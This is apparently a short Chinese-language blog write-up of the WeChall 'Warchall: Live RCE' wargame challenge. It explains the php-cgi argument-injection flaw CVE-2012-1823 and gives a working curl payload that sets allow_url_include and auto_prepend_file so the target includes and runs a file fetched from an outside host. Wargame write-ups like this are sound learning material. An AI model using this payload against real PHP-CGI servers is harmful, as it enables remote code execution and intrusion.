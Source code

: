 ```yaml
---
title: 'Warchall: Live RCE'
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/07/03/warchall-live-rce
  - /writeup/2014/07/03/warchall-live-rce/
tags:
  - PHP
  - wechall
---
```

<http://www.wechall.net/challenge/warchall/live_rce/index.php>  
这道题开始试了半天，发现没有注入什么的……然后在网上搜php rce，发现了有这个问题：CVE-2012-1823

根据解释，如果query string中不包含未urlencoded的等号，那么整个query会以空格分词，传给php-cgi。于是我们传-s，就会把php文件源码回显。试了`http://rce.warchall.net/?-s`，发现确实存在这个问题

然后我们就可以远程执行代码了  
{% highlight bash %}
$ curl http://rce.warchall.net/?-dallow_url_include%3dOn+-dauto_prepend_file%3dhttp%3a%2f%2fnabla.users.warchall.net%2f1+-n
{% endhighlight %}
这里会重写php.ini，使`http://nabla.users.warchall.net/1`被包含，于是类似于rfi。最后发现答案在文件`../config.php`中

